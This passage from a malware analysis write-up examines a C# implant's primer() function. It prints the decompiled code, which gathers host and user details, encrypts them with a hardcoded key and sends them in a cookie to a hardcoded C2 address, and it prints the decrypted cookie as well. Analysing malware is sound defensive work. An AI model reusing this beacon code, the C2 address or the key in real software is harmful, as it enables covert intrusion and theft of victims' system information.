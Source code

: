 `primer()` takes care of notifying the C2 server about the infection by making a request to the hardcoded address `"http://64.226.84.200:8080/Kettie/Emmie/Anni?Theda=Merrilee?c"` with some basic info of the victims system (Computer name, architecture, Environment) which is encrypted with the hardcoded key stored in `key` and passed as a cookie in the HTTP GET request.

We can validate that we have the right encryption setup by trying to decrypt the cookie with the key found (the implant doesn't specify IV values so the first 16 bytes of the encrypted are used):

`DESKTOP;DESKTOP\IEUser*;DESKTOP;AMD64;6796;tmp7102591;1`

```csharp
private static void primer()
	{
		if (!(DateTime.ParseExact("2025-01-01", "yyyy-MM-dd", CultureInfo.InvariantCulture) > DateTime.Now))
		{
			return;
		}
		dfs = 0;
		string text = "";
		try
		{
			text = WindowsIdentity.GetCurrent().Name;
		}
		catch
		{
			text = Environment.UserName;
		}
		if (ihInteg())
		{
			text += "*";
		}
		string userDomainName = Environment.UserDomainName;
		string environmentVariable = Environment.GetEnvironmentVariable("COMPUTERNAME");
		string environmentVariable2 = Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE");
		int id = Process.GetCurrentProcess().Id;
		string processName = Process.GetCurrentProcess().ProcessName;
		Environment.CurrentDirectory = Environment.GetEnvironmentVariable("windir");
		string text2 = null;
		string text3 = null;
		string[] array = basearray;
		for (int i = 0; i < array.Length; dfs++, i++)
		{
			string text4 = array[i];
			string un = $"{userDomainName};{text};{environmentVariable};{environmentVariable2};{id};{processName};1";
			string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
			text3 = text4;
			string address = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
			try
			{
				string enc = GetWebRequest(Encryption(key, un)).DownloadString(address);
				text2 = Decryption(key, enc);
			}
			catch (Exception ex)
			{
				Console.WriteLine($" > Exception {ex.Message}");
				continue;
			}
			break;
		}
		if (string.IsNullOrEmpty(text2))
		{
			throw new Exception();
		}
```